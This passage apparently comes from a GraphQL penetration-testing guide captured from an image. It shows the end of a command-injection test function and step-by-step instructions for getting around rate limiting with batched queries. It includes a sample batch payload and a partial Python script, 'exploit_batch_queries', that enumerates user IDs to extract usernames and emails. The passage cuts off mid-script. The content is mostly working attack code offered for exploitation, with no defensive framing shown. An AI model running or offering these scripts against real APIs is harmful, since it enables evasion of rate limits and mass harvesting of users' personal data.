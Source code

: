                print("-" * 50)
       
       # Example usage
       test_command_injection("https://target.com/graphql")
       ```

  - **Bypassing rate limiting and DoS**
    1. **Exploiting batched queries**:
       - Step 1: Identify if the API supports batched queries
       - Step 2: Create an array of identical queries with different parameters
       - Step 3: Test if rate limiting is applied per HTTP request or per operation
       - Step 4: If per request, use batching to bypass limits
       - Step 5: Automate for large-scale data extraction
       - Example batched query:
       ```graphql
       [
         {"query": "{ user(id: \"1\") { username email } }"},
         {"query": "{ user(id: \"2\") { username email } }"},
         {"query": "{ user(id: \"3\") { username email } }"}
       ]
       ```
       - Python script for batched query exploitation:
       ```python
       import requests
       import json
       
       def exploit_batch_queries(url, query_template, id_range):
           headers = {"Content-Type": "application/json"}
           
           # Create batch of queries
           batch_queries = []
           for i in id_range:
               batch_queries.append({
                   "query": query_template.replace("{{ID}}", str(i))
               })
           
           print(f"[*] Sending batched request with {len(batch_queries)} queries")
           response = requests.post(url, headers=headers, json=batch_queries)
           
           if response.status_code == 200:
               try:
                   results = response.json()
                   print(f"[+] Batch query successful - received {len(results)} results")
                   
                   # Process and extract valuable data
                   extracted_data = []
                   for i, result in enumerate(results):
                       if "data" in result and result["data"] is not None:
                           user_id = id_range[i]
                           user_data = result["data"].get("user")
                           if user_data:
                               extracted_data.append({
                                   "id": user_id,
                                   "data": user_data
                               })
                   